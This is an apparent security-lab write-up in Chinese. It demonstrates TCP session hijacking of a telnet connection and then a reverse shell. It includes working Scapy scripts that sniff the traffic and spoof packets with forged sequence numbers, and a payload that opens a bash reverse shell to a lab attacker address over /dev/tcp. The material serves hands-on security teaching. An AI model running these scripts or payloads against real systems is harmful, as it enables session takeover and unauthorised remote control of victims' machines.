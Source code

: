 # Task 3: TCP Session Hijacking

1. 使用sniff自动捕获telnet的包，
2. 根据捕获的包内容设置伪造包的源目地址
3. 设置好seq和ack号
4. data数据在telnet连接中被当作命令执行，所以在这里注入恶意代码，写入一段话到具体目录下面

具体程序代码如下：
```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
        ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
        tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
        data = "echo \"hijacked!\" >> ~/malicious.out\n\0"
        pkt = ip/tcp/data
        ls(pkt)
        send(pkt, verbose=0)

f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-d277ca74e6d7', filter=f, prn=spoof_pkt)

```

首先使用一个host和victim产生一个telnet连接：

![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab4/image/1.png)

在attacker上输入如下命令，发动攻击：
```shell
python3 tcphijack.py
```

查看结果：

![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab4/image/2.png)


说明攻击成功

# Task 4: Creating Reverse Shell using TCP Session Hijacking

把Task 3 中的注入命令换成可以产生反向shell的命令

```shell
/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1
```

具体代码如下：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
        ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
        tcp = TCP(sport=pkt[TCP].dport, dport=23, flags="A", seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
        data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
        pkt = ip/tcp/data
        send(pkt, verbose=0)

f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-d277ca74e6d7', filter=f, prn=spoof_pkt)
```
在attacker上打开监听端口：

![](https://github.com/kryonsir/handsonsecuritylab/blob/master/lab4/image/7.png?raw=true)

执行攻击：

![](https://github.com/kryonsir/handsonsecuritylab/blob/master/lab4/image/4.png?raw=true)

用另一个host和victim进行telnet连接：

![](https://github.com/kryonsir/handsonsecuritylab/blob/master/lab4/image/5.png?raw=true)

反向shell成功连接到attacker，输入命令验证：

![](https://github.com/kryonsir/handsonsecuritylab/blob/master/lab4/image/6.png?raw=true)

这个文件是Task 3中传入victim中的，说明attacker成功使用反向shell连接到victim

